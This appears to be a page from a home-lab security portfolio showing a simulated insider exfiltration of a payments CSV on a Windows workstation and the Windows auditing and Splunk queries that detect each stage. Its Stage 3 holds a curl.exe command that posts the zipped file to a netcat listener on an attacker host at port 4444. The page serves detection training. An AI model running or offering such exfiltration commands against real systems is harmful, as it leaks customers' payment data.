



# Phase 5 — Insider Threat & Data Exfiltration

A Finance department account on FIN-WKS-04 reads customer payment data, compresses it, and sends it to an external host. The account has legitimate standing access to the files — no exploits, no compromised credentials, no perimeter alerts. This scenario is undetectable by authentication monitoring, firewall rules, or IDS signatures. Detection requires host-level behavioral telemetry that is disabled by default on Windows.

---

## What Had to Be Enabled

Three Windows audit subcategories and a folder-level SACL are required. None are active on a default Windows 11 installation:

```powershell
# Generates Event 4663 when files in watched directories are accessed
auditpol /set /subcategory:"File System" /success:enable /failure:enable

# Generates Event 4103 capturing full PowerShell cmdlet parameter bindings
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" /v EnableScriptBlockLogging /t REG_DWORD /d 1 /f

# Generates Event 5156 for every permitted network connection
auditpol /set /subcategory:"Filtering Platform Connection" /success:enable /failure:enable
```

A SACL (System Access Control List) was also applied to `C:\CustomerExports\`. Without it, the File System audit policy has no effect on that folder — the SACL is what instructs Windows to generate 4663 events for that specific path.

**Target data:**


---

## Stage 1 — File Access (T1005)

The Finance account reads `payments_export.csv` via PowerShell. Event ID 4663 fires and captures: the exact file path, the account that accessed it, the type of access (`ReadData`), and the process responsible (`powershell.exe`). This is forensic-quality attribution for a single file read.

```spl
index=windows EventCode=4663 Object_Name="*CustomerExports*"
| table _time, Account_Name, Object_Name, AccessMask
```


---

## Stage 2 — Compression (T1560.001)

`Compress-Archive` stages the payment CSV as `export.zip` on the user's Desktop.

**Critical finding:** This does not trigger Event ID 4688 (Process Creation). Native PowerShell cmdlets execute inside the existing `powershell.exe` process — no child process is spawned, so there is no process creation event to log. An analyst monitoring only Event 4688 would have no visibility into this stage.

Detection required Event ID 4103 (PowerShell Module Logging). This event records the full parameter bindings of every cmdlet execution — including the exact source and destination paths of the compression operation.

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4103
| where match(_raw, "(?i)Compress-Archive")
| table _time, ComputerName, _raw
```

The archive confirmed on the Desktop immediately after the command ran:



Event 4103 captures `sourceFilePaths: C:\CustomerExports\payments_export.csv` and `destinationPath: C:\Users\ronakmishra\Desktop\export.zip` — more forensic detail than 4688 would have provided even if it had fired:



---

## Stage 3 — Exfiltration (T1048)

`curl.exe` transmits the archive to Kali's netcat listener on port 4444. Port 4444 has no legitimate business use on a Finance workstation.

```powershell
curl.exe -X POST --data-binary "@C:\Users\$env:USERNAME\Desktop\export.zip" http://10.0.0.100:4444/
```

Kali confirms an inbound connection from `10.0.0.32` (FIN-WKS-04):


The received file is 431 bytes — matching the export.zip created in Stage 2, confirming intact transfer:


**Detection query:**
```spl
index=windows EventCode=5156 Destination_Port=4444
| table _time, Application_Name, Source_Address, Destination_Address, Destination_Port
```

Event 5156 identifies the application (`curl.exe`), source (`10.0.0.32`), destination (`10.0.0.100`), and port (`4444`) — complete attribution for the exfiltration channel:


---

## Centerpiece — Full Kill Chain Correlated

All three stages are correlated into a single Splunk incident. The `transaction` command groups events by host within a 30-minute window and only produces a result when all three stages are present. This approach eliminates false positives from isolated file access or scheduled compression tasks — neither alone would trigger the alert.

```spl
index=windows (EventCode=4663 Object_Name="*CustomerExports*")
    OR (EventCode=4103 _raw="*CompressFilesHelper*")
    OR (EventCode=5156 Destination_Port=4444)
| transaction host maxspan=30m
| where eventcount >= 3
| table _time, host, eventcount, duration
```

The full attack chain in chronological order — Stage 1 file access events, Stage 2 compression, Stage 3 exfiltration, all labeled:


**27 raw events collapsed into 1 correlated incident spanning 25 minutes on FIN-WKS-04:**



This query is deployed as the **"Meridian - Insider Threat Data Exfiltration Chain"** alert (Critical severity, every 10 minutes).

---

Full incident report: [IR-MER-2026-002](../incident-reports/IR-MER-2026-002-insider-data-exfiltration.md)

← [Phase 4](phase4-owasp-detection.md) · [Back to README](../README.md) · [Phase 6 →](phase6-alerts.md)
